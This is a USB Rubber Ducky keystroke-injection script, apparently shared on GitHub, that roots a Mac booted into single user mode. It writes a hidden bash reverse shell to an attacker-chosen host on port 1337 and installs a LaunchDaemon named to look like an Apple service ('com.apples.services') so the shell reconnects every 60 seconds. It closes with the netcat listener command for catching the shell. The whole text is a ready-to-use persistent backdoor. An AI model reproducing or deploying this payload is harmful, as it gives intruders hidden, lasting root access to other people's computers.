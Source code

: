 Boot into single user mode and insert ducky. This script will created a persistent backdoor as the root user. This payload was encoded with v2.4 on firmware duck_v2.1.hex. Change to your IP address or domain name and port number. A good tutorial on the payload here: [http://patrickmosca.com/root-a-mac-in-10-seconds-or-less/](http://patrickmosca.com/root-a-mac-in-10-seconds-or-less/)

`
REM Patrick Mosca
REM A simple script for rooting OSX from single user mode.
REM Change mysite.com to your domain name or IP address
REM Change 1337 to your port number
REM Catch the shell with 'nc -l -p 1337'
REM http://patrickmosca.com/root-a-mac-in-10-seconds-or-less/
DELAY 1000
STRING mount -uw /
ENTER
DELAY 2000
STRING mkdir /Library/.hidden
ENTER
DELAY 200
STRING echo '#!/bin/bash
ENTER
STRING bash -i >& /dev/tcp/mysite.com/1337 0>&1
ENTER
STRING wait' > /Library/.hidden/connect.sh
ENTER
DELAY 500
STRING chmod +x /Library/.hidden/connect.sh
ENTER
DELAY 200
STRING mkdir /Library/LaunchDaemons
ENTER
DELAY 200
STRING echo '<plist version="1.0">
ENTER
STRING <dict>
ENTER
STRING <key>Label</key>
ENTER
STRING <string>com.apples.services</string>
ENTER
STRING <key>ProgramArguments</key>
ENTER
STRING <array>
ENTER
STRING <string>/bin/sh</string>
ENTER
STRING <string>/Library/.hidden/connect.sh</string>
ENTER
STRING </array>
ENTER
STRING <key>RunAtLoad</key>
ENTER
STRING <true/>
ENTER
STRING <key>StartInterval</key>
ENTER
STRING <integer>60</integer>
ENTER
STRING <key>AbandonProcessGroup</key>
ENTER
STRING <true/>
ENTER
STRING </dict>
ENTER
STRING </plist>' > /Library/LaunchDaemons/com.apples.services.plist
ENTER
DELAY 500
STRING chmod 600 /Library/LaunchDaemons/com.apples.services.plist
ENTER
DELAY 200
STRING launchctl load /Library/LaunchDaemons/com.apples.services.plist
ENTER
DELAY 1000
STRING shutdown -h now
ENTER
`
***
Catch the shell with netcat


`nc -l -p 1337`

